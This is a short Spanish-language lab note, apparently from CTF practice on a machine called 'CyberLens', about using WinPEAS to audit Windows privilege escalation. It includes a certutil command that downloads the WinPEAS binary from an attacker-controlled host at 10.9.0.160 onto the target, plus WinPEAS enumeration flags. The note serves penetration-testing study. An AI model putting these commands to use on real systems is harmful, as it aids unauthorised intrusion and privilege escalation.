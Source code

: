 Es una herramienta utilizada para realizar "privilege escalation auditing" en sistemas Windows. Está diseñada para detectar configuraciones y debilidades que podrían ser explotadas para elevar privilegios en un sistema.

```
https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS
```

Primero descargamos el repositorio en nuestro directorio
```Bash
wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/winPEASany_ofs.exe
```
![[Pasted image 20240522113541.png]]

Arrancamos un servidor donde se encuentre el archivo WinPEAS.exe
![[Pasted image 20240522113717.png]]

Ejecutamos curl para descargarnos el fichero
```Powershell
certutil -urlcache -f http://10.9.0.160:8080/winPEASany_ofs.exe C:\Users\CyberLens\Desktop\WinPEAS.exe
```
![[Pasted image 20240605094835.png]]

Ahora ejecutamos WinPEAS
![[Pasted image 20240605095025.png]]

Ahora tendremos que analizar la información y ver que vulnerabilidades a detectado
![[Pasted image 20240605100728.png]]
![[Pasted image 20240605100824.png]]

## **Comandos WinPeas**
### **Información detallada de usuarios del sistema**
```
winPEAS.exe quiet filesinfo userinfo
```

### **Información archivos importantes**
```
winPEAS.exe quiet searchfast filesinfo
```